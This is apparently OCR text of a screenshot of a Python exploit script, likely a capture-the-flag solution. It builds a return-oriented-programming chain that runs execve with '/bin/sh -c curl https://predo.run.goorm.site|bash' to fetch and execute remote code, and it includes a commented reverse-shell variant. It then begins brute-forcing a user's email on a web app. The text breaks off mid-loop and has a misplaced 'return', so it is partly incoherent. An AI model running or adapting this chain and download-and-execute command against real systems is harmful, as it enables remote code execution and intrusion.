 ```python
    def gadget_write_at(addr, qword):
        if isinstance(qword, bytes):
            if len(qword) > 8:
                raise ValueError("qword cannot be larger than 8 bytes")
            qword = qword.ljust(8, b"\x00")
        yield POP_RDI
        yield addr
        yield POP_RSI
        yield qword
        yield MOV_GADGET

    def gadget_create_string(addr, s):
        s = s.encode() + b"\x00"
        for i in range(0, len(s), 8):
            yield from gadget_write_at(addr + i, s[i:i+8])

    if __name__ == "__main__":
        argv = [RW_SECTION+0x100, RW_SECTION+0x200, RW_SECTION+0x300]
        argv_arr = RW_SECTION

        content = flat([
            PIVOT_GADGET,
            SIGNUM,

            # Write execve() arguments
            *gadget_create_string(argv[0], "/bin/sh"),
            *gadget_create_string(argv[1], "-c"),
            # *gadget_create_string(argv[2], f"curl {SHELL_HOST}:{SHELL_PORT}|sh"),
            #*gadget_create_string(argv[2], f"sleep 100"),
            *gadget_create_string(argv[2], f"curl https://predo.run.goorm.site|bash"),
            #! Warning: due to limited chain size, the command needs to be pretty short

            # Create argv[] array
            *gadget_write_at(argv_arr, argv[0]),
            *gadget_write_at(argv_arr + 8, argv[1]),
            *gadget_write_at(argv_arr + 16, argv[2]),

            # Run execve syscall
            POP_RAX,
            constants.SYS_execve,
            POP_RDI,
            argv[0],
            POP_RSI,
            argv_arr,
            POP_RDX,
            0,
            SYSCALL,
        ])

        return content

URL = "http://127.0.0.1:3000"
# URL = "http://43.203.131.177:3000/"

# make qwer credential first
requests.post(URL + '/api/auth/register', json={'username':'qwer', 'email':'qwer@test.com', 'password':'qwer'})

# leak guide email
words = "abcdefghijklmnopqrstuvwxyz0123456789"
guide_email = "guide_"
email_prefix = "guide\\_"
for i in tqdm.tqdm(range(11)):
```